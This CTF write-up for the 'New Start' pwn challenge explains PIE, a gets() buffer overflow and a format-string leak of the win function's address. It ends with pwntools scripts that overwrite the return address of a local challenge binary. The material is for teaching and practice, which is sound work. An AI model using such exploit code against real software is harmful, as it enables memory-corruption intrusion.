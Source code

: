 # Writeup
## NRF24 CTF
## Challenge Name : New Start

- Lets checksec the file first.

![image](https://github.com/user-attachments/assets/bbd3daa9-c779-4335-8209-30b9f39d6d64)

### Analysis

We have PIE enabled here PIE stands for Position Independent Executable,
which means that every time you run the file it gets loaded into a different memory address. 
This means you cannot hardcode values such as function addresses and gadget locations without finding out where they are.

After running the file sevarel time we got some leaks and everytime its different so you know now why these are different .

![Screenshot from 2024-10-23 21-34-20](https://github.com/user-attachments/assets/1730cf7f-3ab9-4c9c-845a-fe2bf4ec1b10)


Luckily, this does not mean it's impossible to exploit. PIE executables are based around relative rather than absolute addresses, meaning that while the locations in memory are fairly random the offsets between different parts of the binary remain constant. For example, if you know that the function main is located 0x128 bytes in memory after the base address of the binary, and you somehow find the location of main, you can simply subtract 0x128 from this to get the base address and from the addresses of everything else.


### First thing first Lets check in Ghidra :


![image](https://github.com/user-attachments/assets/87eb574d-a0a7-44b7-8167-e73c87d1c7a3)

There are 2 vulnersbilities :

1. Buffer Overflow 
2. Format String

## 1. Buffer Overflow Vulnerability

The buffer overflow vulnerability in the provided C code snippet arises from the use of the `gets` function, which does not perform any bounds checking on user input. Let's analyze this in detail.

### Code Context

The relevant part of the code is:

```c
char local_28[32];
gets(local_28);
```

- `local_28` is defined as an array of 32 characters. This means it can store up to 31 characters plus a null terminator (`\0`).

- The `gets` function reads a line of input from standard input (stdin) and stores it in the buffer `local_28`.

- **Critical Flaw**: `gets` does not check the length of the input. If a user inputs more than 31 characters, it will overflow the buffer.

run ```man gets```

![image](https://github.com/user-attachments/assets/44204c32-5e3a-4f2c-806d-67f3635c3eed)


## 2. Format String

The string ```"I'm a newbie in CTF, and this is my first PWN challenge. What am I getting myself into: %p\n"``` serves as the format string.
The **%p** format specifier within this string is specifically designed to print a pointer value (an address in memory).
In our case its leaking the **win** functions adress

so now you know u r getting the win,s adress

![image](https://github.com/user-attachments/assets/9ef4c224-e2c2-41f9-998a-e58fe9c80430)






**SO how its going to help us ?**

Ans : First we will overflow that stack and put the adress of the win function , it will popout as a flag . :)



- Lets Break it down :


![image](https://github.com/user-attachments/assets/4ec00086-6450-4ee6-80b5-4798a74ab285)

- Its a 32-bit LSB pie executable file .

#### Memory Layout in 32-bit Architecture
In a 32-bit system, pointers and addresses are 4 bytes long. The memory layout of a stack frame typically looks like this:
```
+---------------------+
|  Return Address     |  <- 4 bytes
+---------------------+
|  Saved Base Pointer  |  <- 4 bytes
+---------------------+
|  Local Variables     |  (variable size)
+---------------------+
|  Buffer              |  (buffer size, e.g., 32 bytes)
+---------------------+

```

Here we have to over flow all these so that we can put our leaked win functions address.
```
User  Input: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA" (40 bytes)

Stack Before Overflow:
+---------------------+
|  Return Address     |  <- Original return address 
+---------------------+
|  Saved Base Pointer  |  <- Original base pointer
+---------------------+
|  Local Variables     |  <- Local variables
+---------------------+
|  Buffer              |  <- 32 bytes for user input
+---------------------+

Stack After Overflow:
+---------------------+
|  Overwritten Address |  <- New return address (win)
+---------------------+
|  Overwritten Base Pointer  |
+---------------------+
|  Local Variables     |  <- Potentially corrupted
+---------------------+
|  Buffer              |  <- Filled with "AAAAAAAA..."
+---------------------+

```


- Now You know what to do right?

- lets use another ezz method to find the overflowing value using **gdb**

- create cyclic patterns

![image](https://github.com/user-attachments/assets/7fc990c7-63f8-4543-8a96-c421fd06e96c)

- run and input the created pateerns

![image](https://github.com/user-attachments/assets/c83c1a06-8c9d-4957-8a31-ce793a6345cc)

- find the breaking value from EIP

![image](https://github.com/user-attachments/assets/16124415-3629-4efa-91b1-7b67032a5df7)



#### Its time for scripting :

for normal return to win pwn u can easily  get the flag using this type script 

```py
from pwn import *

elf = ELF('basic')
io = process('./basic')

payload = cyclic(40)+ pack(win_address)  

io.sendline(payload)
io.interactive()
```
But as we knw the adress of win is not fixed so we have to grep the win adress as well we have to overflow and put the adress in 1 run.

so the final script :

```py
from pwn import *

elf = ELF('basic')
io = process('./basic')

data = io.recvline()
data_str = data.decode('utf-8')  # Decode the bytes object to a string
leaked_address = int(data_str.split(':')[1].strip(), 16)   # received data to extract the leaked address

payload = cyclic(40)+ pack(leaked_address)   #info address win 

io.sendline(payload)
io.interactive()
```

![image](https://github.com/user-attachments/assets/de41ffad-5c11-4161-a429-e566b4efe458)
